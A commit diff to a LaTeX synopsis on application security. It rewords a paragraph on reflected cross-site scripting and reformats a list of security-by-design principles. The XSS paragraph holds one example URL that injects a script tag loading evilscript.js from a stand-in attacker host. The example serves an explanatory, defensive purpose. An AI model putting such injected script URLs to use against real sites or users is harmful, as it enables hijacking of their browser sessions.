

Before and after one commit to marcinzelent/application-security, a LaTeX document (synopsis.tex): part of page 11 of 14 before the commit and two parts of pages 11 and 12 of 14 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
More formatting fixes

```diff
--- a/synopsis.tex
+++ b/synopsis.tex
@@ -453,8 +453,7 @@ possible to include much bigger scripts with:
 \end{minted}
 
 The reflected attack works by reflecting the injected code off the trusted
-website.  For example, an attacker might send an URL with malicious code to the
-victim, e.g:
+website. For example, an attacker might send a malicious URL to the victim, e.g:
 \texttt{http://website.com/<script\%20src="http://attackerswebsite.com/
 evilscript.js"></script>}. The URL itself is not dangerous, but the vulnerable
 website might show an error message containing the URL, thus embedding it and
@@ -477,40 +476,40 @@ future. This idea known as security by design is based on several security
 principles:
 
 \begin{itemize}
-	\item \textbf{Minimize attack surface area}
+	\item \textbf{Minimize attack surface area} \\
 		The more features an application has, the higher the risk of it
 		being vulnerable to exploits because the attack surface area is
 		bigger. It is encouraged to add only necessary functions and
 		make them simple.
-	\item \textbf{Establish secure defaults}
+	\item \textbf{Establish secure defaults} \\
 		It means making security measures on by default, but allowing to
 		disable them, if a user wishes to.
-	\item \textbf{Principle of Least privilege}
+	\item \textbf{Principle of Least privilege} \\
 		Every entity in the application should have just as many
 		privileges and resources as they need to perform their actions
 		and no more than that.
-	\item \textbf{Principle of Defense in depth}
+	\item \textbf{Principle of Defense in depth} \\
 		The defense should be created by layered security mechanisms, so
 		if one of them becomes broken, the other ones may still prevent
 		the attack.
-	\item \textbf{Fail securely}
+	\item \textbf{Fail securely} \\
 		If a security mechanism fails and throws exceptions, it should
 		still serve its purpose and block the request that caused the
 		error.
-	\item \textbf{Don't trust services}
+	\item \textbf{Don't trust services} \\
 		When an application is using the third party services, it
 		should be careful just like with any other external system.
 		These services could have different, perhaps worse security and
 		might get compromised. Trusting them too much creates a risk
 		for the app.
-	\item \textbf{Separation of duties}
+	\item \textbf{Separation of duties} \\
 		Every user of the application has his role (e.g. administrator,
 		client) and capabilities. An account with one role should not
 		have the functionality of another role.
-	\item \textbf{Avoid security by obscurity}
+	\item \textbf{Avoid security by obscurity} \\
 		Application's security should not rely on keeping secrets, like
 		being closed source or using custom cipher algorithm. It should
 		be also using other security mechanisms.
-	\item \textbf{Keep security simple}
+	\item \textbf{Keep security simple} \\
 		Simple code is more secure and faster than a complex one, as it
 		minimizes the attack surface area.
```
Also changed, not shown: synopsis.pdf, synopsis.tex (6 more changed lines).
